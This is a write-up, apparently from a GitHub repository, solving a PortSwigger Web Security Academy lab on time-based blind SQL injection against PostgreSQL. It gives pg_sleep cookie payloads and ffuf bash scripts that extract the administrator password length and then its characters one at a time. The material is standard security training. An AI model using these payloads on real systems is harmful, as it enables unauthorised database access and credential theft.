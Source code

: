 # Blind SQL injection with time delays

**Lab Url**: [https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

![Lab Description](img/lab-description.png)

## Analysis

According to the lab description the lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

We can confirm that the application is vulnerable to blind SQL injection with the below payload.

```bash
TrackingId=YOUR-TRACKING-ID'%3B+SELECT+pg_sleep(10)+--
```

The application will pause execution for about 10 seconds.

## Solution

To solve the lab, we have to craft a payload that triggers `sleep` function if a certain condition is met.

*Something like this.*

```bash
TrackingId=YOUR-LAB-ID'%3B+SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+--
```

**Use the below script, to extract the password of the administrator user incrementally. Ffuf shows the duration of each request and the largest duration is usually printed last.**

*But before that extract the length of the password.*

```bash
#!/bin/bash

echo {0..30} | tr ' ' '\n' > range.txt

ffuf -X GET \
    -u https://YOUR-LAB-ID.web-security-academy.net \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)='FUZZ')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--" \
    -w range.txt
```

```bash
echo {0..9} {a..z} {A..Z} | tr ' ' '\n' > chars.txt
```

```bash
#!/bin/bash

ffuf -X GET \
    -u https://YOUR-LAB-ID.web-security-academy.net \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='FUZZ')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--" \
    -w chars.txt
```

After retrieving the password login as administrator to solve the lab.

![Lab Solved](img/lab-solved.png)
